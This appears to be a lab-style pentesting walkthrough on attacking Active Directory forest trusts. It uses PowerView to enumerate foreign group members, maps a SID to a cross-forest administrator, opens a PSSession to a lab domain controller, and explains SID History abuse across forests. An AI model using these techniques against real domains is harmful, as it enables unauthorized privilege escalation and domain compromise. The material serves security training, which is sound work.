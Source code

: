 ### Using Get-DomainForeignGroupMember

For instance,  the `FREIGHTLOGISTICS.LOCAL` domain with which we have an external bidirectional forest trust.

```powershell
Get-DomainForeignGroupMember -Domain $targeteddomain
# Example:
# Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```

Results:
```
GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL
```

If we convert the SID to name:
```powershell
Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
# Results: INLANEFREIGHT\administrator
```

Meaning that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member.

### Accessing DC03 Using Enter-PSSession

```powershell
Enter-PSSession -ComputerName $hostname.$targeteddomain -Credential $ParentDomain\administrator
# Example:
# Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
# From the command output above, we can see that we successfully authenticated to the Domain Controller in the `FREIGHTLOGISTICS.LOCAL` domain using the Administrator account from the `INLANEFREIGHT.LOCAL` domain

```

## SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest.

If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest.
